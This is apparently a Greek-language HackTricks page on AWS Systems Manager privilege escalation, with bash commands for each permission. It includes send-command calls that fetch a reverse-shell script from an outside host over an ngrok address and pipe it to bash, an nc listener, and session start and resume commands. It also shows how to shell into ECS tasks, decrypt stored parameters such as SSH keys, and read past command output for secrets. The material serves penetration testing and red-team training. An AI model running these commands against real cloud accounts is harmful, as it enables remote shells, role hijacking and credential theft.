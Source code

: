# AWS - SSM Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ένας επιτιθέμενος με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελεί εντολές σε instances** που εκτελούν τον Amazon SSM Agent και να **συμβιβάσει τον IAM Role** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Σε περίπτωση που χρησιμοποιείτε αυτή την τεχνική για να κλιμακώσετε τα προνόμια μέσα σε μια ήδη παραβιασμένη EC2 instance, μπορείτε απλά να καταγράψετε το rev shell τοπικά με:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των EC2 IAM ρόλων που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με SSM Agents.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το **SessionManagerPlugin** εγκατεστημένο: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των ρόλων IAM EC2 που είναι συνδεδεμένοι με τις τρέχουσες παρουσίες με SSM Agents σε εκτέλεση.

#### Εκμετάλλευση σε ECS

Όταν οι **ECS tasks** εκτελούνται με **`ExecuteCommand` ενεργοποιημένο**, οι χρήστες με αρκετά δικαιώματα μπορούν να χρησιμοποιήσουν `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο κοντέινερ.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), αυτό γίνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την εντολή “_exec_” και του στόχου κοντέινερ με τον SSM Session Manager. (Απαιτείται το SSM Session Manager Plugin για να λειτουργήσει)\
Επομένως, οι χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν πρόσβαση σε ένα shell μέσα στις ECS tasks** με αυτή την επιλογή ενεργοποιημένη απλά εκτελώντας:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση των ρόλων `ECS`IAM που είναι συνδεδεμένοι σε εκτελούμενα καθήκοντα με ενεργοποιημένο `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας επιτιθέμενος με την άδεια **`ssm:ResumeSession`** μπορεί να επαν-**εκκινήσει μια συνεδρία παρόμοια με SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent με κατάσταση συνεδρίας SSM **αποσυνδεδεμένη** και **να παραβιάσει τον IAM Ρόλο** που εκτελείται μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων προς τους ρόλους IAM EC2 που είναι συνδεδεμένοι σε εκτελούμενες περιπτώσεις με εκτελούμενους SSM Agents και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τις αναφερόμενες άδειες θα είναι σε θέση να καταγράψει τις **παραμέτρους SSM** και **να τις διαβάσει σε καθαρό κείμενο**. Σε αυτές τις παραμέτρους μπορείτε συχνά **να βρείτε ευαίσθητες πληροφορίες** όπως κλειδιά SSH ή κλειδιά API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και ελπίζουμε να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να απαριθμήσει όλες τις **εντολές** που έχουν σταλεί και **να διαβάσει την έξοδο** που έχει παραχθεί ελπίζοντας να βρει **ευαίσθητες πληροφορίες** σε αυτήν.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στην έξοδο των γραμμών εντολών.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα έργο codebuild που κατασκευάζεται:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
